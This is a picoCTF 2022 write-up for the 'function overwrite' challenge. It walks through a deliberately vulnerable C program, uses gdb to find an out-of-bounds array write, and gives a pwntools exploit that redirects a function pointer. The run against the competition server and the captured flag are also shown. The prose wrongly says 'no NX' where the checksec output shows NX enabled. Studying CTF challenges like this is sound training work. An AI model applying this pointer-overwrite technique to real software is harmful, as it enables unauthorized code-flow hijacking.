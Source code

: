 # function overwrite - picoCTF 2022 - CMU Cybersecurity Competition
Binary Exploitation, 400 Points

## Description

![‏‏info.JPG](images/info.JPG)
 
## function overwrite Solution

Let's observe the attached file [vuln.c](./vuln.c):
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <wchar.h>
#include <locale.h>

#define BUFSIZE 64
#define FLAGSIZE 64

int calculate_story_score(char *story, size_t len)
{
  int score = 0;
  for (size_t i = 0; i < len; i++)
  {
    score += story[i];
  }

  return score;
}

void easy_checker(char *story, size_t len)
{
  if (calculate_story_score(story, len) == 1337)
  {
    char buf[FLAGSIZE] = {0};
    FILE *f = fopen("flag.txt", "r");
    if (f == NULL)
    {
      printf("%s %s", "Please create 'flag.txt' in this directory with your",
                      "own debugging flag.\n");
      exit(0);
    }

    fgets(buf, FLAGSIZE, f); // size bound read
    printf("You're 1337. Here's the flag.\n");
    printf("%s\n", buf);
  }
  else
  {
    printf("You've failed this class.");
  }
}

void hard_checker(char *story, size_t len)
{
  if (calculate_story_score(story, len) == 13371337)
  {
    char buf[FLAGSIZE] = {0};
    FILE *f = fopen("flag.txt", "r");
    if (f == NULL)
    {
      printf("%s %s", "Please create 'flag.txt' in this directory with your",
                      "own debugging flag.\n");
      exit(0);
    }

    fgets(buf, FLAGSIZE, f); // size bound read
    printf("You're 13371337. Here's the flag.\n");
    printf("%s\n", buf);
  }
  else
  {
    printf("You've failed this class.");
  }
}

void (*check)(char*, size_t) = hard_checker;
int fun[10] = {0};

void vuln()
{
  char story[128];
  int num1, num2;

  printf("Tell me a story and then I'll tell you if you're a 1337 >> ");
  scanf("%127s", story);
  printf("On a totally unrelated note, give me two numbers. Keep the first one less than 10.\n");
  scanf("%d %d", &num1, &num2);

  if (num1 < 10)
  {
    fun[num1] += num2;
  }

  check(story, strlen(story));
}
 
int main(int argc, char **argv)
{

  setvbuf(stdout, NULL, _IONBF, 0);

  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  vuln();
  return 0;
}
```

Let's run ```checksec``` on the attached file [vuln](./vuln):
```console
┌─[evyatar@parrot]─[/pictoctf2022/binary_exploitation/function_overwrite]
└──╼ $ checksec vuln
[*] '/pictoctf2022/binary_exploitation/function_overwrite/vuln'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

Partial RELRO, No canary and no PIE and also no NX.

By reading the code we can see that we have [Write-Where-What](https://www.martellosecurity.com/kb/mitre/cwe/123/) meaning that we ability to write an arbitrary value to an arbitrary location.

We can see that on ```vuln``` function:
```c
...
if (num1 < 10)
{
  fun[num1] += num2;
}
...
```

As we can see, ```check``` pointer point to ```hard_checker``` function, If we can change it to ```easy_checker``` we can fill the ```story``` array with values which the sum will be ```1337```.

First, Let's find the offset between ```fun``` to ```check``` using ```gdb```:
```console
gef➤  info variables 
All defined variables:

Non-debugging symbols:
...
0x0804c040  check
...
0x0804c080  fun
...
```

The offset between ```0x0804c080``` to ```0x0804c040``` is ```64``` bytes, ```fun``` is ```int``` array, meaning that we need to access to ```fun[-64/sizeof(int)]``` to point to the address of ```check``` pointer.

Let's check the address of ```hard_checker``` and ```easy_checker```:
```console
gef➤  x 0x0804c040
0x804c040 <check>:	0x08049436
gef➤  p easy_checker 
$20 = {<text variable, no debug info>} 0x80492fc <easy_checker>
gef➤  p hard_checker 
$21 = {<text variable, no debug info>} 0x8049436 <hard_checker>
```

As we can see, ```check``` point now on ```0x08049436``` which is the address of ```hard_checker```.

The offset between ```easy_checker``` to ```hard_checker``` is ```0x08049436-0x80492fc``` which is ```314```, meaning that we need to subtract from ```check``` 314.

So according that, the values of ```num1``` is ```-64/sizeof(int)=-16``` and ```num2``` is ```-314```.

The ```story``` array should be ```~~~~~~~~~~M```, The value of ```~``` is ```126``` and of ```M``` is ```77``` so ```126*10+77=1337```.

Let's solve it using [pwntools](https://docs.pwntools.com/en/stable/intro.html):
```python
from pwn import *

elf = ELF('./vuln')

if args.REMOTE:
    p = remote('saturn.picoctf.net', 54525)
else:
    p = process(elf.path)

story_buffer = "~"*10+"M" # =1337

p.sendlineafter('>>', story_buffer)
print(p.recvuntil('10'))
p.sendline('-16 -314') # num1=-16 to access to check from fun pointer, -314 is the offset between hard_checker to easy_checker
p.interactive()
```

Run it:
```console
┌─[evyatar@parrot]─[/pictoctf2022/binary_exploitation/function_overwrite]
└──╼ $ python3 exp_rop.py REMOTE
[*] '/pictoctf2022/binary_exploitation/function_overwrite/vuln'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[*] '/usr/lib32/libc-2.31.so'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to saturn.picoctf.net on port 54525: Done
b' On a totally unrelated note, give me two numbers. Keep the first one less than 10'
[*] Switching to interactive mode
.
You're 1337. Here's the flag.
picoCTF{0v3rwrit1ng_P01nt3rs_f61460f0}
```

And we get the flag ```picoCTF{0v3rwrit1ng_P01nt3rs_f61460f0}```.
